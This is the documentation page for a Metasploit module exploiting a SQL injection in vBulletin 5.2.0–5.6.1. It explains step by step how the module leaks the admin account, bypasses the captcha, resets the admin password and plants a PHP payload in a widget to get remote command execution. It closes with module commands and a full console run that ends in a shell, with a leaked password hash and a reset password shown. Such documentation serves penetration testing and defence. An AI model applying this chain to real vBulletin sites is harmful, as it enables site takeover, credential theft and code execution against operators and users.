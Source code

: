 ## Vulnerable Application

  [vBulletin](https://www.vbulletin.com) A popular PHP bulletin board and blog web application.
  This module has been tested successfully against vBulletin 5.6.1 running on Ubuntu Linux 19.04

### Description

This module exploits a SQL injection vulnerability present in vBulletin 5.2.0 through 5.6.1 in the
`getIndexableContent` function. This vulnerability is triggered through the `nodeId` variable and
can be reached through multiple paths (listed below) but is exploited in this module utilizing the
`/ajax/api/content_infraction/getIndexableContent` path.

- /ajax/api/content_video/getIndexableContent
- /ajax/api/content_text/getIndexableContent
- /ajax/api/content_report/getIndexableContent
- /ajax/api/content_redirect/getIndexableContent
- /ajax/api/content_privatemessage/getIndexableContent
- /ajax/api/content_poll/getIndexableContent
- /ajax/api/content_photo/getIndexableContent
- /ajax/api/content_link/getIndexableContent
- /ajax/api/content_infraction/getIndexableContent
- /ajax/api/content_gallery/getIndexableContent
- /ajax/api/content_event/getIndexableContent
- /ajax/api/content_channel/getIndexableContent
- /ajax/api/content_attach/getIndexableContent

Each path listed above reaches the `getIndexableContent` function within the `/core/vb/library/content.php`
file. The SQL injection attack used utilizes a UNION query in order to leak data back in the response
`rawtext` field.

#### Leveraging getContentIndexable SQL injection for RCE

The exploit begins by attempting to get a `nodeid` for use in the SQL injection attack, this can be supplied
by the user within the `NODE` module option, or if not supplied, the value is brute-forced within the bounds
of the `MINNODE` and `MAXNODE` module options. After acquiring a valid `nodeid`, the exploit attempts to obtain
the vBulletin install's table prefix. This is done by using the `getIndexableContent` SQL injection vulnerability
to query the `INFORMATION_SCHEMA` table and get a result we expect (to determine if there is a prefix attached).
In the module we use the `language` table for this process. After getting the table prefix we can begin dumping
the table data, we start with the administrator user id, username, token, and email. These are used later in the
process to make a lost password request and can also be used to backup the administrator user's data prior to the
destructive change that will happen when the password is changed later in the module. After acquiring the
administrator info the script begins the to gather other pieces needed to submit a lost password request. This
part can vary between installs but involves a form of "human verification" along with an administrator's email.
The module will attempt to determine the human verification (or captcha) type, then determine if a bypass or solve
is possible. There are 4 total types of human verification, an image (GD or ImageMagic based), a Question/Answer
(which is stored as a regular expression), Recaptcha2 (an external api based captcha), and disabled.

- If an `Image` (GD or ImageMagic based) human verification is selected, the module can bypass it and requires
no interaction. This is done by querying the database for the image contents using the SQL injection vulnerabilty.

- If the `Question/Answer` human verification is selected, the module will attempt to submit the answer retrieved
from the database utilizing the SQL injection vulnerability. This can sometimes fail and require manual intervention
if a complex regular expression is used but the answer is provided through the modules output.

- If the `Recaptcha2` human verification method is selected, the module will fail with a message along with an
administrators email to use for a lost password request.

- If `Disabled` is chosen, the script will work without action.

After bypassing the human verification the script will attempt to send a lost password request, this will send
an email to the administrator. If the human verification request fails, the module can be configured to skip the
human verification and lost password steps. This is done by setting the modules `MANUALLOSTPASS` option to true,
**this however does require that just prior to running the exploit the lost password request is made**. If the
administrator completes the request, the activation token will be removed from the database and the next step of
the reset will fail. After the lost password request is made, the module then attempts to retrieve the Activation
ID from the database using the SQL injection vulnerability. When all of the above is completed, the administrators
password can finally be reset. The password is changed to a random 10-16 character alphanumeric password which is
displayed in the modules output.

The module can now begin to leverage the administrator access for remote command execution. This begins by first creating
a new widget instance, this widget instance is of a `widget_php` type (a special type that allows for php code embedded
within). After the widget instance is created, the module then attempts to modify the widget to add our selected payload.
The widget is then ready to use and is added to a new page. This page is created with a randomly generated 10 to 16
character alphanumeric url. The payload and attack is then ready to execute and the module makes a final request in the
attack process to execute the PHP payload. Upon successful completion, the page is deleted from the vBulletin install.

## Verification Steps

1. Do: ```use exploit/multi/http/vbulletin_getindexablecontent```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set VHOST [HOSTNAME]```
4. Do: ```set TARGETURI [PATH]```
5. Do: ```set PAYLOAD [PAYLOADNUM]```
6. Do: ```run```

## Options

### MANUALLOSTPASS

A boolean value used to determine if the lost password request should be automated or will be performed manually. **Default: false**

### NODE

A valid node id value for the vBulletin install. When provided, this value is used instead of that acquired by brute-forcing.

### MINNODE

A minimum nodeid value to begin with when brute-forcing for a valid node id. **Default: 1**

### MAXNODE

A maximum nodeid value to end with when brute-forcing for a valid node id. **Default: 200**

### TARGETURI

The base URI path of vBulletin. **Default: /**

## Scenarios

```
msf5 > use exploit/multi/http/vbulletin_getindexablecontent 
msf5 exploit(multi/http/vbulletin_getindexablecontent) > set RHOSTS vb.local
RHOSTS => vb.local
msf5 exploit(multi/http/vbulletin_getindexablecontent) > set VHOST vb.local
VHOST => vb.local
msf5 exploit(multi/http/vbulletin_getindexablecontent) > set TARGETURI /vb5
TARGETURI => /vb5
msf5 exploit(multi/http/vbulletin_getindexablecontent) > set PAYLOAD 2
msf5 exploit(multi/http/vbulletin_getindexablecontent) > check
[*] 192.168.1.100:80 - The target appears to be vulnerable.
msf5 exploit(multi/http/vbulletin_getindexablecontent) > run

[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Brute forcing to find a valid node id.
[+] Sucessfully found node at id 1
[*] Attempting to determine the vBulletin table prefix.
[*] Performing SQL injection on target to retrieve 'table_name' from 'information_schema.columns'.
[+] Sucessfully retrieved table to get prefix from vb5_language.
[*] Performing SQL injection on target to retrieve 'userid' from 'vb5_administrator'.
[*] Performing SQL injection on target to retrieve 'username' from 'vb5_user'.
[*] Performing SQL injection on target to retrieve 'token' from 'vb5_user'.
[*] Performing SQL injection on target to retrieve 'email' from 'vb5_user'.
[+] Retrieved administrator uid: 1 user: administrator email: zenofex@exploitee.rs and password: $2y$15$IKz0ra/N2WrJr4BZZMExIOwIET.4Tz8Wni20BMEHjG/A.k9tuOK.W
[*] Sending request to '/vb5/ajax/api/hv/fetchHvType' to get human verification type.
[+] Retrieved HV/captcha type of 'Image'.
[*] Making request to '/vb5/ajax/api/hv/generateToken' to retrieve HV token.
[+] Retrieved '85885c3fafb61b91cb3d2959e13ffe07' human verification token.
[*] Using HV token '85885c3fafb61b91cb3d2959e13ffe07' and SQLinjection to determine HV answer.
[*] Performing SQL injection on target to retrieve 'answer' from 'vb5_humanverify'.
[+] Retrieved '4w8CPc' answer to HV token '85885c3fafb61b91cb3d2959e13ffe07'.
[*] Making request to '/vb5/auth/lostpw' to begin lost password process.
[*] Performing SQL injection on target to retrieve 'activationid' from 'vb5_useractivation'.
[*] Sending reset password request to '/vb5/auth/reset-password'.
[+] User with userid '1' successfully reset password to 'dSxTtxI7yh'.
[*] Making login request to '/vb5/auth/ajax-login' with username: 'administrator' and password: 'dSxTtxI7yh'.
[+] Successfully logged in as administrator .
[*] Making request to '/vb5/ajax/activate-sitebuilder' to activate site-builder functionality.
[+] Successfully enabled site-builder functionality.
[*] Making login request to '/vb5/auth/ajax-login' with username: 'administrator' and password: 'dSxTtxI7yh'.
[+] Successfully logged in as administrator cplogin.
[*] Making request to '/vb5/ajax/api/widget/saveNewWidgetInstance' to create new widget.
[+] Created new widget instance.
[*] Making request to '/vb5/ajax/api/widget/saveAdminConfig' to add payload to widget.
[+] Successfully added payload to widget.
[*] Sending request to '/vb5/admin/savepage' to save new page at 'OToB9nTU'.
[+] Page succesfully create and should be accessible at '/vb5/OToB9nTU'.
[+] Executing PHP payload (230 bytes) at /vb5/OToB9nTU.
[*] Sending request to '/vb5/OToB9nTU' to execute payload.
[*] Sending delete page request to '/vb5/ajax/api/page/delete'.
[+] Successfully deleted page with pageid: 148
[*] Started bind TCP handler against 192.168.1.100:4444
[*] Command shell session 1 opened (0.0.0.0:0 -> 192.168.1.100:4444) at 2020-05-22 21:24:42 -0500

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
